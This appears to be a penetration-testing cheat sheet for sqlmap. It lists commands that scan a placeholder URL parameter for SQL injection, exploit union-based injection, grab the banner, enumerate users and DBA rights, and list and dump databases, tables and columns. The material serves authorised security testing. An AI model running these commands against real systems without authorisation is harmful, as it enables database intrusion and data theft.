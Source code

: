 ### sqlmap

#### Scanning for SQLi
To scan a URL for SQL injection vulnerabilities:

  ```bash
  # The -p flag allows you to specify which get parameter to test
  sqlmap -u http://target.site?id=1 -p id
  ```
#### Exploit Union-Based In-Band SQLi
To exploit a Union-Based In-Band SQLi, use:

  ```bash
  # The --technique switch allows you to specify a SQLi type
  sqlmap -u http://target.site?id=1 -p id --technique=U
  ```

SQLMap will discover the correct technique to use on its own, but specifying the technique manually is a best practice. This prevents you from sending an excessive number of payloads and reduces the risk that you'll damage the database.

#### Banner Grabbing
To grab the database banner, use:

  ```bash
  sqlmap -u http://target.site?id=1 -p id --technique=U --banner
  ```

This reports the database and OS version in use. This is useful information to include in your report as a proof of vulnerability.

#### Dumping Users
To dump the users stored in a database, use:

  ```bash
  sqlmap -u http://target.site?id=1 -p id --technique=U --users
  ```

#### Checking if the User is Admin
To check if the server connects to the database as an administrator, use:

  ```bash
  sqlmap -u http://target.site?id=1 -p id --technique=U --is-dba
  ```

#### Dumping Data
To list all available databases, use:

  ```bash
  sqlmap -u http://target.site?id=1 -p id --technique=U --dbs
  ```

To list all tables in a particular database, use:

  ```bash
  sqlmap -u http://target.site?id=1 -p id -D <database> --tables
  ```

...Where `<database>` is the name of one of the databases output by `--dbs`.

To list columns from a given table, use:

  ```bash
  sqlmap -u http://target.site?id=1 -p id -D <database> -T <table> --columns
  ```

...Where `<table>` is the name of one of the tables output by `--tables`.

To dump just specific columns, use:

  ```bash
  sqlmap -u http://target.site?id=1 -p id -D <database> -T <table> -C <column> --dump
  ```

...Where `<column>` is the name of one of the columns output by `--columns`.
